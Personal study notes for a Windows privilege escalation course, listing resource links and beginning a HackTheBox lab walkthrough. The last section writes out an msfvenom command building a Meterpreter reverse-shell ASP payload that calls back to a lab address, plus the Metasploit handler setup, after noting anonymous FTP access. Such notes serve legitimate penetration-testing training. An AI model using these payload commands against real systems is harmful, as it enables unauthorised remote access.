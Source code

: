 
## Introduction

### Course Introduction

> [!note] 
> Resources for this video:
TCM Security Website - https://tcm-sec.com/
The Cyber Mentor Website - https://www.thecybermentor.com/
The Cyber Mentor Twitter - https://twitter.com/thecybermentor
The Cyber Mentor Twitch - https://twitch.tv/thecybermentor
My LinkedIn: - https://linkedin.com/in/heathadams

![[Pasted image 20230409140356.png]]

![[Pasted image 20230409140441.png]]

![[Pasted image 20230409140543.png]]

![[Pasted image 20230409140801.png]]


### Course Discord (Important)

> [!note] 
> Resources for this video:
> Course Discord - [https://discord.gg/tcm](https://discord.gg/tcm) 


### Resources and Tips for Success

> [!note] 
> Resources for this video:
Fuzzy Security Guide - https://www.fuzzysecurity.com/tutorials/16.html
PayloadsAllTheThings Guide - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
Absolomb Windows Privilege Escalation Guide - https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
Sushant 747's Guide (Country dependant - may need VPN) - https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html


### Course Repo

> [!note] 
>  Welcome to the course. I truly hope you enjoy it and learn from it!
>  
>  Please see the attached link for a list of all resources used in the course. A very special thanks goes to Grimmie for putting this together! <3
>  
>  [https://github.com/Gr1mmie/Windows-Priviledge-Escalation-Resources](https://github.com/Gr1mmie/Windows-Priviledge-Escalation-Resources)
>  
>  Thank you!
>  
>  Heath


## Gaining a Foothold

### Introduction

> [!info] 
> To avoid Windows Licence cost's, this course is mostly based on HackTheBox / TryHackMe
> 

![[Pasted image 20230409142334.png]]

### Gaining a Foothold (Box 1)

Open HTTP and FTP Service:

FTP Server allow `anonymous` and as password `*anything*` Login.

> [!todo] 
> Create meterpreter web reverse shell
> `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.87 LPORT=9001 -f asp > shell.asp`
> 

> [!todo] 
> run `msfconsole`
> `use exploit/multi/handler` 
> `show options`
> `set lhost tun0`
> `set lport 9001`
> `set payload windows/meterpreter/reverse_tcp`
> `run`



